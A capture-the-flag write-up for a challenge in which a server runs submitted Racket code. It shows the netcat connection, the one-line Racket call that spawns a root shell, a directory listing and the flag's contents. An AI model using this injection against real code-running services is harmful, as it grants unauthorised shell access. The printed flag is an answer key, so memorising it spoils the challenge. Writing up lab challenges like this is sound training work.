# Tennis Racket

## Challenge
I just started my Computer Science Course at NUS last week and my CS prof is teaching us how to use Racket! He set up a server on his personal computer for us to upload and test our code, I wonder if I can find the answers to next week's test on here heh

`nc tennis1.nypinfsecctf.tk 8010`

## Solution

1. Connect to the server via netcat

`nc tennis1.nypinfsecctf.tk 8010`

2. Start a root shell using Racket-lang's built-in functions

```rkt
(system "/bin/bash")
```

3. Look for the flag file

```bash
root@7bf0ff368443:/# ls -la

total 64
drwxr-xr-x   1 root root 4096 May  6 16:27 .
drwxr-xr-x   1 root root 4096 May  6 16:27 ..
-rwxr-xr-x   1 root root    0 May  6 16:06 .dockerenv
lrwxrwxrwx   1 root root    7 Apr 27 03:49 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 15  2020 boot
drwxr-xr-x   5 root root  340 May  7 12:16 dev
drwxr-xr-x   1 root root 4096 May  6 16:06 etc
-rw-r--r--   1 root root   31 May  4 02:34 flag
drwxr-xr-x   2 root root 4096 Apr 15  2020 home
lrwxrwxrwx   1 root root    7 Apr 27 03:49 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Apr 27 03:49 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Apr 27 03:49 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Apr 27 03:49 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Apr 27 03:49 media
drwxr-xr-x   2 root root 4096 Apr 27 03:49 mnt
drwxr-xr-x   2 root root 4096 Apr 27 03:49 opt
dr-xr-xr-x 300 root root    0 May  7 12:16 proc
drwx------   2 root root 4096 Apr 27 03:52 root
drwxr-xr-x   5 root root 4096 Apr 27 03:52 run
lrwxrwxrwx   1 root root    8 Apr 27 03:49 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Apr 27 03:49 srv
dr-xr-xr-x  13 root root    0 May  7 12:16 sys
-rw-r--r--   1 root root    4 May  6 16:27 test
drwxrwxrwt   1 root root 4096 May  4 12:03 tmp
drwxr-xr-x   1 root root 4096 Apr 27 03:49 usr
drwxr-xr-x   1 root root 4096 Apr 27 03:52 var
```

4. Print out flag file contents

```bash
root@7bf0ff368443:/# cat flag

NYP{lisp_or_scheme_idk_anymore}
```

## Ending Note
This challenge was originally solved entirely using Racket-lang's built-in functions. But ever since I found a way to spawn a root shell, the process has became significantly easier.